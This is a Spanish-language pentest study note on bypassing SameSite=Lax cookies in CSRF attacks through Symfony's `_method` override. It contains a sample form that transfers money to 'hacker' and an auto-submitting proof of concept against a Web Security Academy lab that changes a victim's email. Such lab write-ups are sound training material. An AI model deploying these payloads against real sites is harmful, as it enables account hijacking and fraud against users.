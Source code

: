 #### BYPASS SAMESITE LAX ATTRIBUTE

##### CSRF - BYPASS VIA METHOD OVERRIDE (ANULACION DEL METODO)

- Puede que encontremos un posible vector de ataque CSRF.
- Las cookies tienen la configuracion por defecto de **SameSite=Lax**.
- Y la peticion es un POST.

La configuracion Lax solo permite el envio de cookies a traves de **Peticiones GET**, por lo que al ser una peticion POST no podriamos explotar esto.

**_El primer paso es ver si podemos cambiar el metodo a GET y ver si funciona, pero caso contrario podemos intentar lo siguiente:_**

Algunos framework como **Symfony** admite el parámetro `_method` en formularios, que tiene prioridad sobre el método normal o establecido:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST"> 
	<input type="hidden" name="_method" value="GET"> 
	<input type="hidden" name="recipient" value="hacker"> 
	<input type="hidden" name="amount" value="1000000"> 
</form>
```

>[!tip]
>Otros marcos admiten una variedad de parámetros similares.

**EJEMPLO**

puede que el metodo GET no este soportado:

![[Pasted image 20230208111829.png]]

descubrimos que la pagina usa **Symfony** entonces podemos agregar el parametro `_method` al final y dejarlo como metodo GET:

![[Pasted image 20230208112424.png]]

crearmos la siguiente carga util para la victima

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a7c00e8048926bcc031db49006800dd.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST"> 
			<input type="hidden" name="email" value="hate&#64;you&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
